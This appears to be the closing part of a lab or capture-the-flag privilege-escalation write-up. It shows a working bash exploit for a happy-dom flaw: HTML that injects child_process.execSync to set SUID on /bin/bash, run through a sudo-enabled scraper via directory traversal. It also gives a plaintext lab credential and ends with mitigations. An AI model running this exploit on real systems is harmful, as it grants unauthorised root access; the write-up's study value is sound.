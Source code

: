 ```jsx

    console.log('----------------------------');
});
```

It just receives an html page and prints out scripts, links, and metaTags.

I see that it is importing something called `happy-dom` searching the vulnerability for this I found this [PoC](https://security.snyk.io/vuln/SNYK-JS-HAPPYDOM-8350065)

```bash
echo "chmod +s /bin/bash" > /tmp/suid
chmod +x /tmp/suid
echo "\`<script src=\"http://localhost:8080/'+require('child_process').execSync('/tmp/suid')+'\"></script>\`" > escalate.html
sudo /usr/bin/web-scraper /root/web_src_downloaded/../../home/wp_hub/escalate.html
```

As I don’t have privileges to write root directory I used directory traversal to execute my html.

![image.png](image%2012.png)

## Credentials

```bash
wp_hub : qazwsxedc
```

## Mitigation

- Implement strict validation on file uploads, including allowed MIME types and file extensions.
- Ensure uploaded files are stored outside the web root.
- Disable directory traversal and enforce secure path handling.
- Avoid granting unnecessary `sudo` privileges and regularly audit `sudoers`.
- Keep third-party libraries (like `happy-dom`) up to date and monitor for vulnerabilities.
